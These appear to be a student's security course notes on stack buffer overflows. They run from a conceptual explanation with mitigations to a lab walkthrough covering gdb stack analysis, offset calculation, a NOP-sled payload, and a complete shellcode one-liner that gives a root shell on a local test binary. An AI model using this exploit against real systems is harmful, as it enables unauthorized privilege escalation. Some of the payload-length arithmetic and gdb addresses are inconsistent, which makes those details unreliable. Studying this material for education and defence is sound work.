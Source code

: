 > [!idea]+ Buffer Overflow Vulnerabilities
>
> A buffer overflow is a security vulnerability that **occurs when a program writes more data to a buffer (array) than it can hold**, causing the excess data to overflow into adjacent memory locations.
> 
> ![[Pasted image 20240319142840.png]]
>
> Why buffer overflows are dangerous:
> - The overflowed data **can corrupt important program information** stored in memory
> - Attackers can intentionally overflow buffers to **overwrite control data like return addresses or function pointers**
> - By carefully crafting their input, **attackers can hijack program execution and run arbitrary code**
>
> **Example:** Consider an ATM program in C that prompts users to enter their name:
>
> ```c
> void getName() {
>     char name[20];
>     printf("Enter your name: ");
>     gets(name);
>     // ...
> }
> ```
>
> The `name` buffer can only hold 20 characters, but `gets()` allows writing an arbitrary length string. An attacker could input a very long name:
>
> ```
> AAAAAAAAAAAAAAAAAAAA\x10\x21\x51\x31...
> ```
>
> The `A`s overflow the buffer, and the `\x10\x21\x51\x31` bytes overwrite the return address. When `getName()` returns, execution jumps to the attacker's code instead of the intended location.
> 
> ![[Pasted image 20240319143354.png]]
>
> **Potential outcomes of buffer overflow attacks**:
> - Crashing the program (benign case)
> - Redirecting execution to an existing function (e.g. `dispenseMoney()`)
> - **Injecting and executing custom shellcode** (e.g. spawning a shell, stealing data) 
>
> **Solutions and mitigations**:
> - Use **runtime bounds checking** to validate array indices and sizes (performance overhead) (Implemented in Python, Rust, Java but not C, C++)
> - Employ secure string handling functions that limit input length
> - Enable compiler protections like stack canaries, ASLR, and DEP
> - Most importantly, write secure code that validates untrusted input 
>
> In summary, buffer overflows allow attackers to corrupt memory and hijack program control flow. Careful programming practices are essential to prevent these dangerous vulnerabilities.





> [!exercise]+ Analyzing the Stack and Identifying the Return Address
>
> To begin exploiting the buffer overflow vulnerability and injecting shellcode, we first need to analyze the stack and identify the location of the return address that we want to overwrite.
>
> Using gdb, we set a breakpoint at the end of the vulnerable `func()` function and run the program with a pattern of 128 "A"s as input. This will allow us to examine the stack and determine the offset between the start of our input and the return address.
>
> After hitting the breakpoint, we use the `x/40x $esp` command to display the stack contents:
>
> ```
> (gdb) x/40x $esp
> 0xffffd1f0: 0x41414141  0x41414141  0x41414141  0x41414141
> ...
> 0xffffd270: 0x41414141  0x41414141  0x41414141  0x41414141
> 0xffffd280: 0xf7fad620  0x00000000  0xffffd2b8  0x080491b1
> ...
> ```
>
> Here, we can see the buffer filled with our "A"s (0x41 in hex) starting at address `0xffffd1f0`.
>
> Next, we use the `info frame` command to find the location of the saved return address:
>
> ```
> (gdb) info frame
> Stack level 0, frame at 0xffffd280:
>  eip = 0x401152 in func (simple.c:7); saved eip = 0x8049d21
>  ...
>  Saved registers:
>   ebp at 0xffffd278, eip at 0xffffd27c
> ```
>
> The output reveals that the saved return address is located at `0xffffd27c` and we need to overwrite `0x8049d21`
>
> With this information, we can calculate the exact offset between the start of our buffer and the return address:
>
> ```
> 0xffffd27c - 0xffffd1f0 = 140 bytes
> ```
>
> This means we need to send a payload of 140 bytes, where the last 4 bytes will overwrite the return address.

> [!exercise]+ Constructing the Malicious Payload
>
> Now that we know the offset to the return address, we can construct our malicious payload to inject shellcode and control the program's execution flow.
>
> The payload will consist of the following components:
>
> 1. [[NOP]] sled (landing pad): A sequence of NOP instructions (`\x90`) that acts as a safety net for our shellcode. It provides a large area of harmless instructions, increasing the chances of our shellcode being executed successfully even if the return address is slightly off.
>
> 2. Shellcode: The actual malicious code that we want to execute. In this example, we'll use a 34-byte shellcode that spawns a shell with root privileges.
>
> 3. Filler: Additional padding to ensure our payload reaches the desired length of 140 bytes.
>
> 4. Return address: The address we want to overwrite the saved return address with. It should point somewhere within our NOP sled.
>
> Here's how we construct the payload:
>
> ```python
> payload = "\x90"*80 + shellcode + "A"*26 + "\xfc\xd1\xff\xff"
> ```
>
> - We start with 80 bytes of NOP sled (`\x90`).
> - We append our 34-byte shellcode.
> - We add 26 bytes of filler (in this case, "A"s) to pad the payload to the desired length.
> - Finally, we include the return address (`\xfc\xd1\xff\xff`) in little-endian format, which points to somewhere within our NOP sled.
>
> The total length of our payload is 80 + 34 + 26 + 4 = 144 bytes, which matches the offset we calculated earlier (140 bytes) plus the size of the return address itself (4 bytes).

> [!exercise]+ Executing the Exploit and Gaining Root Access
>
> With our malicious payload constructed, we can now execute the exploit and gain unauthorized root access to the system.
>
> We run the vulnerable program with our payload as the command-line argument:
>
> ```
> /home/a1112407/ws5/simple $(python -c 'print "\x90"*80 +"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80" + "A"*26 + "\xfc\xd1\xff\xff"')
> ```
>
> Here's what happens when the exploit is executed:
>
> 1. The program copies our payload into the vulnerable buffer using `strcpy()`.
>
> 2. The NOP sled, shellcode, and filler are written to the stack, overflowing the buffer.
>
> 3. The return address is overwritten with the address we specified (`\xfc\xd1\xff\xff`), which points somewhere within our NOP sled.
>
> 4. When the `func()` function returns, instead of returning to the original caller, it jumps to the address we specified in the NOP sled.
>
> 5. The execution continues through the NOP sled until it reaches our shellcode.
>
> 6. The shellcode is executed, spawning a shell with root privileges.
>
> We can confirm that we have successfully gained root access by running the `whoami` command in the spawned shell:
>
> ```
> # whoami
> root
> ```
>
> This demonstrates the power of exploiting buffer overflow vulnerabilities to inject shellcode and gain unauthorized control over a system.
